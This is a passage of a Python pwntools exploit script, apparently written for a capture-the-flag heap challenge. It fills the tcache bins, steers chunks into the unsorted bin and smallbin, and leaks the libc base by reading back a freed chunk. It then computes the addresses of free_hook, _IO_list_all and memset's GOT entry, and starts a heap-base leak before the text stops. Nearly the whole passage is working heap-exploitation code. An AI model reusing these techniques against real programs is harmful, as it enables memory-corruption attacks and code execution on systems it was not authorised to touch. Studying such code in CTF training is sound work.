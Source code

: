 ```python

#tcache 0x160
change(1)
add(0x160, cyclic(0x70))
add(0x160, cyclic(0x70))
add(0x160, cyclic(0x70))
add(0x160, cyclic(0x70))
add(0x160, cyclic(0x70))
add(0x160, cyclic(0x70))
add(0x160, cyclic(0x70))#1->6

add(0x160, cyclic(0x70))#1->7
change(2)
add(0xa0, cyclic(0x30))#protect 2->5
change(1)
add(0x160, cyclic(0x70))#1->8

#fill tcache 0x160
delet(0)
delet(1)
delet(2)
delet(3)
delet(4)
delet(5)
delet(6)

#fill tcache 0xa0 to 5
change(2)
delet(0)
delet(1)
delet(2)
delet(3)
delet(4)

#split into unsorted bin
change(1)
delet(7)

change(3)
change(1)#to clear flag0
view(7)#leak libc
libc_base = u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))-0x219ce0
free_hook = libc_base + 0x2204a8
iolistall = libc_base + 0x21a680
memset_got = libc_base + 0x219188
log.success("libc_base = {}".format(hex(libc_base)))
log.success("free_hook = {}".format(hex(free_hook)))
log.success("iolistall = {}".format(hex(iolistall)))
log.success("memset_got = {}".format(hex(memset_got)))

change(3)
add(0xb0, cyclic(0x30))#smallbin 0 = 1->7	
change(1)
add(0x160, cyclic(0x70))#into smallbin 1->9
delet(8)
change(3)
add(0xb0, cyclic(0x30))#smallbin 1 = 1->8
#unsortedbin finished, 1->9(0x160);2->5(0xa0);3->1

#leak heap_base
change(1)
add(0x410, cyclic(0x160))#1->10
add(0x410, cyclic(0x160))#1->11
```